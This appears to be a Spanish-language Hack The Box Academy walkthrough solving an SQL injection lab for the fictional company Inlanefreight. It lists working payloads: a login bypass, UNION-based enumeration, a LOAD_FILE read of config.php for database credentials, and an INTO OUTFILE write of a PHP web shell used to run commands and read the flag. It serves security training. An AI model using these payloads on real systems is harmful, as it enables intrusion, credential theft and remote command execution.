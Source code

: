 
---
# Guía paso a paso de SQL Injection para Inlanefreight

**Contexto**:

La empresa Inlanefreight ha contratado para realizar una evaluación de aplicaciones web en uno de sus sitios web orientados al público. A raíz de una reciente violación de seguridad de uno de sus principales competidores, están especialmente preocupados por las vulnerabilidades de inyección SQL (SQLi) y el daño que el descubrimiento y la explotación exitosa de este ataque podrían causar a su imagen pública y resultados.

Se proporcionó únicamente la dirección IP de destino y ninguna otra información sobre el sitio web. La tarea consiste en realizar una evaluación completa de la aplicación web desde un enfoque de "caja gris", verificando la existencia de vulnerabilidades de inyección SQL. Debes encontrar dichas vulnerabilidades y enviar como bandera final el contenido de un archivo indicador localizado en el sistema de archivos, utilizando las técnicas vistas en este módulo.

**Target**: `94.237.57.108:31396`

**Laboratorio HTB:** https://academy.hackthebox.com/module/33/section/518

---

## Secuencia óptima de pasos

| Paso | Query (payload)                                                                                                                         | Explicación breve                                                |
| ---- | --------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| 1    | ```sql<br>' OR 1=1-- -<br>```                                                                                                           | Bypass de login para confirmar SQLi y acceso al panel.           |
| 2    | ```sql<br>' UNION SELECT 1,2,3,4,5-- -<br>```                                                                                           | Determinar número de columnas y confirmar inyección en “search”. |
| 3    | ```sql<br>' UNION SELECT 1, LOAD_FILE('/var/www/html/config.php'),3,4,5-- -<br>```                                                      | Leer `config.php` para obtener credenciales MySQL.               |
| 4    | ```sql<br>' UNION SELECT 1, "<?php system($_GET['cmd']); ?>",null,null,null INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -<br>``` | Escribir shell PHP en `/dashboard` para RCE (evita permisos).    |
| 5    | ```http<br>http://94.237.57.108:31396/dashboard/shell.php?cmd=find / -name *flag* 2>/dev/null<br>```                                    | Localizar archivo bandera en el sistema de ficheros.             |
| 6    | ```http<br>http://94.237.57.108:31396/dashboard/shell.php?cmd=cat /flag_cae1dadcd174.txt<br>```                                         | Leer el contenido de la bandera.                                 |

---

## Paso 1: Acceso al panel de login mediante SQLi básica

**Query**:

```sql
' OR 1=1-- -
```

**Resultado**:

```
Payroll Information
Adam	January	1337$ 	5%
James	March	1213$	8%
```
